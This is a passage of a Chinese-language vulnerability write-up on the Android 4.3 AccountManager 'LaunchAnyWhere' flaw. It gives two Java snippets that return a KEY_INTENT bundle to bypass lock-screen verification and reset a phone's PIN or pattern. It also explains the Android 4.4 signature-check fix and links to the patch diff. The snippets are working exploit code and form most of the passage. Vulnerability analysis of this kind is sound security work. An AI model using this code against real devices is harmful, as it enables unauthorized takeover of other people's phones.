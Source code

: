 - 绕过pin码认证界面，直接重置手机系统pin码。

```java
intent.setComponent(new ComponentName("com.android.settings","com.android.settings.ChooseLockPassword"));
intent.setAction(Intent.ACTION_RUN);
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
intent.putExtra("confirm_credentials",false);
final Bundle bundle = new Bundle();
bundle.putParcelable(AccountManager.KEY_INTENT, intent);
return bundle;
```

### 重置锁屏

绕过原有的锁屏校验，直接重置手机的锁屏密码。

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.android.settings", "com.android.settings.ChooseLockPattern"));
intent.setAction(Intent.ACTION_RUN);
intent.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
final Bundle bundle = new Bundle();
bundle.putParcelable(AccountManager.KEY_INTENT, intent);
return bundle;
```

## 漏洞修复

安卓4.4已经修复了这个漏洞，检查了Step3中返回的intent所指向的Activity和AppB是否是有相同签名的。避免了luanchAnyWhere的可能。
Android4.3源代码：[http://androidxref.com/4.3_r2.1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java](http://androidxref.com/4.3_r2.1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java)
Android4.4源代码：[http://androidxref.com/4.4_r1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java](http://androidxref.com/4.4_r1/xref/frameworks/base/services/java/com/android/server/accounts/AccountManagerService.java)
官网漏洞修复的Diff：[https://android.googlesource.com/platform/frameworks/base/+/5bab9da%5E%21/#F0](https://android.googlesource.com/platform/frameworks/base/+/5bab9da%5E%21/#F0)

